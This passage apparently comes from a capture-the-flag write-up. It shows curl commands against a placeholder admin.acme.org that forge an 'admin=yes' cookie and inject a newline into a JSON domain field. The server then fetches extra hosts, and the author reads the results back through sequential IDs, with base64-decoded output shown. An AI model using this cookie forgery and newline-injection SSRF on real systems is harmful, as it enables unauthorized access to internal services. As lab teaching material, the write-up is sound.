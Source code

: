 I created a payload with two domains seperated by a newline. One is **212.test.com**
and the second one is **1234.com**. As a reference, note that the last ID generated was **622**. Because
of the newline, we should expect a new ID of **624** (**skipping 623**).

```bash
$ curl http://admin.acme.org -X POST -b 'admin=yes' -H 'Content-Type: application/json' -d '{"domain" : "212.test.com\n1234.com"}'
{"next":"\/read.php?id=624"}
```

As expected, `id=623` is not in the response. Let's try to read it anyway.
```bash
$ curl http://admin.acme.org/read.php?id=623 -b 'admin=yes'
{"data":"PGh0bWw+DQo8aGVhZD48dGl0bGU+MzAyIEZvdW5kPC90aXRsZT48L2hlYWQ+DQo8Ym9keSBiZ2NvbG9yPSJ3aGl0ZSI+DQo8Y2VudGVyPjxoMT4zMDIgRm91bmQ8L2gxPjwvY2VudGVyPg0KPGhyPjxjZW50ZXI+bmdpbngvMS4xMy40PC9jZW50ZXI+DQo8L2JvZHk+DQo8L2h0bWw+DQo="}

$ echo 'PGh0bWw+DQo8aGVhZD48dGl0bGU+MzAyIEZvdW5kPC90aXRsZT48L2hlYWQ+DQo8Ym9keSBiZ2NvbG9yPSJ3aGl0ZSI+DQo8Y2VudGVyPjxoMT4zMDIgRm91bmQ8L2gxPjwvY2VudGVyPg0KPGhyPjxjZW50ZXI+bmdpbngvMS4xMy40PC9jZW50ZXI+DQo8L2JvZHk+DQo8L2h0bWw+DQo=' | base64 -D
<html>
<head><title>302 Found</title></head>
<body bgcolor="white">
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.13.4</center>
</body>
</html>
```

We're getting the same response as the **212.test.com** test from earlier! Let's try to read
`id=624` now.

```bash
$ curl http://admin.acme.org/read.php?id=624 -b 'admin=yes'
{"data":"PCFET0NUWVBFIEhUTUwgUFVCTElDICItLy9JRVRGLy9EVEQgSFRNTCAyLjAvL0VOIj4KPGh0bWw+PGhlYWQ+Cjx0aXRsZT4zMDEgTW92ZWQgUGVybWFuZW50bHk8L3RpdGxlPgo8L2hlYWQ+PGJvZHk+CjxoMT5Nb3ZlZCBQZXJtYW5lbnRseTwvaDE+CjxwPlRoZSBkb2N1bWVudCBoYXMgbW92ZWQgPGEgaHJlZj0iaHR0cDovL3d3dy4xMjM0LmNvbS5hdS8iPmhlcmU8L2E+LjwvcD4KPGhyPgo8YWRkcmVzcz5BcGFjaGUgU2VydmVyIGF0IDEyMzQuY29tIFBvcnQgODA8L2FkZHJlc3M+CjwvYm9keT48L2h0bWw+Cg=="}

$ echo "PCFET0NUWVBFIEhUTUwgUFVCTElDICItLy9JRVRGLy9EVEQgSFRNTCAyLjAvL0VOIj4KPGh0bWw+PGhlYWQ+Cjx0aXRsZT4zMDEgTW92ZWQgUGVybWFuZW50bHk8L3RpdGxlPgo8L2hlYWQ+PGJvZHk+CjxoMT5Nb3ZlZCBQZXJtYW5lbnRseTwvaDE+CjxwPlRoZSBkb2N1bWVudCBoYXMgbW92ZWQgPGEgaHJlZj0iaHR0cDovL3d3dy4xMjM0LmNvbS5hdS8iPmhlcmU8L2E+LjwvcD4KPGhyPgo8YWRkcmVzcz5BcGFjaGUgU2VydmVyIGF0IDEyMzQuY29tIFBvcnQgODA8L2FkZHJlc3M+CjwvYm9keT48L2h0bWw+Cg==" | base64 -D
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://www.1234.com.au/">here</a>.</p>
<hr>
<address>Apache Server at 1234.com Port 80</address>
</body></html>
```
